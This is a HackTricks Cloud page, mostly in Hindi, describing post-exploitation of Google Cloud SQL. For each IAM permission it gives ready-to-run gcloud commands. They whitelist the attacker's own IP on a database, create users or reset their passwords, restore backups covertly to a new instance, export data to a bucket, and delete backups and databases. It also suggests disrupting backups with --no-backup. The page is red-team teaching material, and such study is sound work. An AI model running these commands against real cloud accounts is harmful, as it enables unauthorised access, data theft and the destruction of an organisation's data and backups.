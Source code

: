 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Cloud SQL के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

डेटाबेस से कनेक्ट करने के लिए आपको **बस डेटाबेस पोर्ट तक पहुंच की आवश्यकता है** और **यूजरनेम** और **पासवर्ड** पता होना चाहिए, कोई IAM आवश्यकताएँ नहीं हैं। इसलिए, एक आसान तरीका है कि यदि डेटाबेस का एक सार्वजनिक IP पता है, तो अनुमत नेटवर्क को अपडेट करें और **अपना खुद का IP पता इसे एक्सेस करने की अनुमति दें**।
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
यह भी संभव है कि **`--no-backup`** का उपयोग करके **डेटाबेस के बैकअप को बाधित** किया जा सके।

चूंकि ये आवश्यकताएँ हैं, मैं पूरी तरह से निश्चित नहीं हूँ कि **`cloudsql.instances.connect`** और **`cloudsql.instances.login`** के लिए अनुमतियाँ क्या हैं। यदि आप जानते हैं तो एक PR भेजें!

### `cloudsql.users.list`

डेटाबेस के **सभी उपयोगकर्ताओं की सूची प्राप्त करें:**
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

यह अनुमति **डेटाबेस के अंदर एक नया उपयोगकर्ता बनाने** की अनुमति देती है:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

यह अनुमति **डेटाबेस के अंदर उपयोगकर्ता को अपडेट करने** की अनुमति देती है। उदाहरण के लिए, आप इसका पासवर्ड बदल सकते हैं:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

बैकअप में **पुरानी संवेदनशील जानकारी** हो सकती है, इसलिए उन्हें चेक करना दिलचस्प है।\
**एक बैकअप को** एक डेटाबेस के अंदर पुनर्स्थापित करें:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
इसे अधिक छिपे हुए तरीके से करने के लिए, एक नया SQL इंस्टेंस बनाना और वहां डेटा को पुनर्प्राप्त करना अनुशंसित है, बजाय वर्तमान में चल रहे डेटाबेस में।

### `cloudsql.backupRuns.delete`

यह अनुमति बैकअप को हटाने की अनुमति देती है:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**एक डेटाबेस का निर्यात करें** ताकि आप इसे वहां से एक्सेस कर सकें:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**एक डेटाबेस आयात करें** (ओवरराइट) एक क्लाउड स्टोरेज बकेट से:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

db instance से एक डेटाबेस हटाएं:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}

